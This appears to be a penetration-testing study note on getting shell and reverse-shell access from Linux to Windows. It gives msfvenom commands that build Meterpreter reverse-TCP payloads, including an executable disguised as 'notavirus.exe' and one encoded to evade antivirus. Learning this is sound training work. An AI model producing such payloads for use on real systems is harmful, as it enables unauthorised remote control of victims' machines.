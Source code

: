 
## Linux -> Windows

Establishing a shell or reverse shell connection between Linux and Windows machines can be complex due to incompatible shells and commands. However, it's possible with the right knowledge and tools. Use SSH to connect to a remote Windows machine from a Linux machine and run commands. The Windows machine needs an SSH server installed. For reverse shell connection, use Plink to initiate a connection from Windows to Linux. Alternatively, use ASPX shell with a Windows machine as an intermediary host, but this approach requires specific Windows tools and techniques and may not be reliable.

MSFvenom
```
msfvenom -p [payload] -f [format] LHOST=[your ip] LPORT=[your listener port]

msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP -f exe -o notavirus.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=9090 -e x86/shikata_ga_nai -i 8 -f c > shell.c
```

<font color="Green">Other Technique ---></font>  [[Cisco CEH/Pentest++/RedTeam/4.Exploitation/Shell-and-Reverse-Shell/1.Payloads-Windows-and-Linux/Windows/Macros Payloads (MS World, Excel, ...)]] (VERY GOOD)